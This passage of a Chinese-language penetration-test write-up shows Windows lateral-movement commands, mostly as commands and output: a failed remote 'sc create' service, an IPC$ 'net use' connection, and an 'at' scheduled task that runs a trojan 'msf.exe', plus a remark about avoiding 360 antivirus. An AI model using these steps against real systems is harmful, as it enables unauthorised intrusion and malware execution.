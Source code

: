接下来就是怎么去执行木马的问题了。

> 而且这样传不会弹360 -,-

先试了一下创建一个服务：

```bash
C:\Oracle\Middleware\user_projects\domains\base_domain>sc \\10.10.10.201 create bdtttttt binpath="C:\\msf.exe"
sc \\10.10.10.201 create bdtttttt binpath="C:\\msf.exe"
[SC] OpenSCManager FAILED 5:

Access is denied.
```

没有办法成功。

建立IPC连接：

```bash
C:\Oracle\Middleware\user_projects\domains\base_domain>net use \\pc\ipc$
net use \\pc\ipc$
The command completed successfully.

```

居然成功了，定时任务执行：

```bash
C:\Oracle\Middleware\user_projects\domains\base_domain>at \\pc 15:23:00 cmd.exe /c "start C:\\msf.exe"
at \\pc 15:23:00 cmd.exe /c "start C:\\msf.exe"
Added a new job with job ID = 1
```

![image-20220413153046204](./image-20220413153046204.png)

![image-20220413154200456](./image-20220413154200456.png)

拿下。


